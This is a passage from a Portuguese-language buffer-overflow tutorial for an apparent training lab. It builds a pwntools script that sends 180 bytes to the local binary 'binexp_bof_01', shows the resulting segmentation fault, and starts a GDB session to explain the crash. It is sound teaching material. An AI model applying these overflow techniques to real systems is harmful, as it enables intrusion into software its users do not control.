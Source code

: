 ```python
payload = b'A' * 180
p.sendline(payload)
```

Seu código final deve ficar assim:

```
#!/usr/bin/env python3

from pwn import *

p = process('./binexp_bof_01')

payload = b'A' * 180
p.sendline(payload)

p.interactive()
```

Então durante a execução você já deve ver que o processo falhou, daí quando
solicitar para sair do `pwntools` verá a mensagem de falha de segmentação:

```
root@mnsec-pwn-d998c673219144:~# ./exploit.py 
[+] Starting local process './binexp_bof_01': pid 178
[*] Switching to interactive mode
[*] buffer is on: 0x7ffdc592b380
[*] Now send data to buffer: 
[*] Got EOF while reading in interactive
$ exit
[*] Process './binexp_bof_01' stopped with exit code -11 (SIGSEGV) (pid 178)
[*] Got EOF while sending in interactive
```

Pronto, agora alcançamos o ponto que estávamos antes de executar o programa
acionando a vulnerabilidade, o que faz com que o programa execute com erro, e
agora temos isso num *script* python organizado que facilitará nossa interação
com o programa vulnerável. Show de bola, vamos em frente! \o/

#### Entendendo o erro

Você pode estar se perguntando: "Mas por quê tem uma falha de segmentação? Como
assim, só por ter mandado alguns bytes a mais??"... Bem, vamos entender isso com
ajuda do GDB.

Execute o programa com o GDB:

```
gdb ./binexp_bof_01
```

Pelo GDB coloque para executar o programa. Isso pode ser feito com o comando
`run`:

```
(gdb) run
Starting program: /root/binexp_bof_01 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[*] buffer is on: 0x7fffffff4990
[*] Now send data to buffer: 

```
